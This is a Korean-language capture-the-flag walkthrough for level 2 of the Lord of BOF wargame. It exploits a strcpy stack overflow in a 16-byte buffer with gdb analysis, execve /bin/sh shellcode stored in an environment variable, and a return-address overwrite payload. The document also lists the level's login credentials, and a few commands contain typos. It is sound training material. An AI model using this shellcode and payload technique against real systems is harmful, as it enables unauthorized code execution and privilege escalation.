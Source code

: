 # LOB 2번

#### ID : gremlin PW: hello bof world<br>

**먼저 bash2에서 실행해야함을 기억하자** <br>

우선 cobolt.c의 내용을 보자<br>
```cat cobolt.c```<br>
```c
#include <stdio.h>

int main(int argc, char *argv[1])
{
      char buffer[16];
      if (argc < 2){
        printf("argv error\n");
        exit(0);
      }
      strcpy(buffer, argv[1]);
      printf("%s\n", buffer);
}
```
버퍼의 크기가 16으로 작아졌을 뿐 lob 1번 문제와 유사하다.<br>
[LOB 1번 보기](https://github.com/white-bean/security-study/blob/master/lob/lob_1%EB%B2%88.md)

우리의 목적을 생각해보자.<br>
1. buffer 위치 구하기
2. 환경변수 등록 후 주소 얻기
3. ret에 환경변수 주소 덮어씌우기
3. 공격!

**cobolt 코드를 디버깅해야하기 때문에 cobolt1로 복사하자.**<br>

**그리고 디버깅을 해보자**<br>
```gdb -q cobolt1```<br>
```set disassembly-flavor intel```<br>
```disas main```<br>

<main+3>을 보면 16만큼의 자리를 만들고있다.<br>
buffer에서 ebp까지의 거리가 16이라는 것이다.<br>

25byte 쉘코드를 등록해준 후 주소값을 얻는 코드를 통해 주소값을 얻자.<br>
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80<br>

```export shellcode=$(python -c 'print "\n90"*20+\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"')```<br>
vi에디터를 이용해 쉘 코드의 주소값을 받아오는 코드를 작성한다.<br>
```vi shell.c```<br>
```c
#include <stdio.h>

int main()
{
    printf("%p\n", getenv("shellcode"));
    return 0;
}
```
```
gcc -o shell shell.c
./shell
```
만든 코드를 실행시키면 쉘 코드의 주소값을 알 수 있다.<br>

**이제 페이로드를 작성해보자.**<br>
```../cobolt `python -c 'print "A"*20+"\x82\xfe\xff\xbf"'` ```<br>
*(주소는 little endian 방식으로 입력된다)*<br>
<br>
**공격 실시!**<br>
```../gremlin `python -c 'print "A"*20+"\x82\xfe\xff\xbf"'` ```<br>
```my-pass```로 비밀번호를 물어보면<br>
euid와 함께 비밀번호가 "~~". 라고 나올 것이다!!
